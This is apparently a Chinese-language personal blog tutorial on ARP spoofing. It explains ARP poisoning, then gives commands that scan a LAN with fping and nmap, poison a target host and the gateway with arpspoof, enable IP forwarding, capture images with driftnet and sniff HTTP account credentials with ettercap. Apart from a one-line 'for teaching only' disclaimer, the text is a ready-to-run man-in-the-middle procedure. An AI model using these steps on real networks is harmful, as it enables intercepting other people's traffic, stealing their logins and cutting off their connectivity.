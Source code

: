 ```yaml
---
title: arp 欺骗
date: 2018-12-11 22:59:50
categories: hack
tags: [arp]
---
```


ARP欺骗（英语：ARP spoofing），又称ARP毒化（ARP poisoning，网上上多译为ARP病毒）或ARP攻击，是针对以太网地址解析协议（ARP）的一种攻击技术，通过欺骗局域网内访问者PC的网关MAC地址，使访问者PC错以为攻击者更改后的MAC地址是网关的MAC，导致网络不通。此种攻击可让攻击者获取局域网上的数据包甚至可篡改数据包，且可让网上上特定计算机或所有计算机无法正常连线。

<!-- more -->

## 扫描局域网内活跃主机

```
# 安装 fping
apt install fping -y 

# 扫描活跃主机
fping -g -r 0 -s 192.168.1.0/24 | grep alive
```

## 识别主机

```
# -O 后面是需要扫描的主机列表
nmap -T4 -O 192.168.1.100 192.168.1.101
```

## arp 欺骗

双向欺骗，这里 192.168.1.100 是第一步中扫描的目标主机，192.168.1.1 是网关地址。

```
# 安装 arpspoof 工具
apt install dsniff -y

# 开始 arp 欺骗
arpspoof -i eth0 -t 192.168.1.100 192.168.1.1
arpspoof -i eth0 -t 192.168.1.1 192.168.1.100
```

这个时候目标已经不能上网了，我们开启主机的ip转发。

```
echo 1 > /proc/sys/net/ipv4/ip_forward
```

## 图片探嗅

```
driftnet -i eth0
```

效果不是很理想，广告比较多。

## HTTP 账号探嗅

```
# 安装 ettercap 工具
apt install ettercap-text-only -y

# 探嗅
ettercap -Tq -i eth0
```

## 说明

> 本教程仅用于教学，切勿违法。
